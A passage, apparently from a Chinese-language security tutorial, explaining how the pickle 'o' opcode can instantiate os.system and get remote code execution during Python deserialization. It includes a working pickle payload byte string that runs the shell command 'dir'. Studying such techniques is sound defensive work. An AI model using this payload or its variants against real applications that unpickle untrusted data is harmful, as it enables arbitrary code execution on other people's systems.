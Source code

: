 同理 o 指令也可以，o 指令也是可以用于实例化一个类，与它相关的函数为：

[![](assets/1705886719-e86bd103d0b20db19305976c033a03a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211401-9d0f3afa-b6cc-1.png)

[![](assets/1705886719-8a85bf02e5d7f6271ab347b4f848ae6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211405-9f36bc5e-b6cc-1.png)

> 这里同样也是控制\_\_instantiate() 函数的参数和类名，不同的是这里的类名和参数都由当前栈中弹出，因此可直接将 os.system 和 dir 一起压入栈中，经过 Pop\_mark() 后返回的就是一个 system 和 dir 的列表，随后 cls 经过 pop(0) 弹出的是先进的 system，剩下的栈即 args 就为 dir。进而触发 RCE

修改 payload 为如下：

```bash
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(cos\nsystem\nX\x03\x00\x00\x00diro0b.'
```

[![](assets/1705886719-65efcfe3b529db778adf912b0fe596cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211412-a32972e8-b6cc-1.png)

[![](assets/1705886719-164e0efaee612424696c73ad05e14dc0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211416-a5a83ea0-b6cc-1.png)
